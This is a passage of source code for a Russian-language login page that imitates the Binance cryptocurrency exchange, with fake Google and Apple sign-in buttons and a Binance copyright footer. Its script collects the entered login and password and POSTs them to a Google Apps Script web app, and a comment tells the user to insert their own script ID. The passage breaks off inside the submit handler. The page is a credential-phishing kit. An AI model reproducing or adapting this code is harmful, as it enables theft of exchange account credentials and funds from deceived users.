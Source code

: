     <button class="alt-login-btn" type="button" onclick="alert('Вход через Google пока недоступен')">
      <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" fill="#f3ba2f"><path d="M21.35 11.1h-9.2v2.9h5.3c-.23 1.25-1.44 3.67-5.3 3.67-3.2 0-5.8-2.66-5.8-5.94 0-3.28 2.6-5.94 5.8-5.94 1.81 0 3.03.77 3.74 1.44l2.55-2.46C17.66 6.12 15.85 5.3 13.4 5.3 7.7 5.3 3.3 9.72 3.3 15.45c0 5.73 4.4 10.15 9.9 10.15 5.71 0 9.51-4.06 9.51-9.79 0-.66-.08-1.17-.36-1.61z"/></svg>
      Войти через Google
    </button>

    <button class="alt-login-btn" type="button" onclick="alert('Вход через Apple пока недоступен')">
      <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" fill="#f3ba2f"><path d="M16.37 1.43c-.88.1-1.94.59-2.56 1.33-.55.64-1.04 1.65-.91 2.62 1.05.04 2.23-.65 2.9-1.4.56-.6.94-1.44.57-2.55zM20.33 12.88c-.05-3.25 2.8-4.8 2.93-4.88-1.6-2.34-4.1-2.66-5-2.7-2.12-.22-4.14 1.25-5.22 1.25-1.1 0-2.81-1.21-4.62-1.17-2.37.04-4.57 1.39-5.81 3.53-2.48 4.3-.63 10.65 1.79 14.14 1.19 1.78 2.6 3.77 4.44 3.7 1.8-.08 2.48-1.14 4.65-1.14 2.12 0 2.74 1.14 4.62 1.11 1.94-.03 3.15-1.8 4.29-3.57 1.36-2.07 1.92-4.08 1.95-4.18-.05-.02-3.73-1.43-3.78-5.67z"/></svg>
      Войти через Apple
    </button>

    <div class="extra">
      Нет аккаунта? <a href="#">Зарегистрироваться</a>
    </div>

    <div class="message" id="message"></div>
  </div>

  <footer>
    © 2017–2025 Binance. Все права защищены. &nbsp;|&nbsp;
    <a href="#">Условия использования</a> &nbsp;|&nbsp;
    <a href="#">Политика конфиденциальности</a>
  </footer>

<script>
  const form = document.getElementById('loginForm');
  const messageDiv = document.getElementById('message');

  form.addEventListener('submit', async (e) => {
    e.preventDefault();
    messageDiv.textContent = '';
    const login = document.getElementById('login').value.trim();
    const password = document.getElementById('password').value.trim();

    if (!login || !password) {
      messageDiv.textContent = 'Пожалуйста, заполните все поля.';
      messageDiv.className = 'message error';
      return;
    }

    // Замените этот URL на URL вашего Google Apps Script веб-приложения
    const googleScriptURL = 'https://script.google.com/macros/s/ВАШ_ID_СКРИПТА/exec';

    try {
      await fetch(googleScriptURL, {
        method: 'POST',
        mode: 'no-cors', // чтобы избежать проблем с CORS
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify({ login, password })
      });
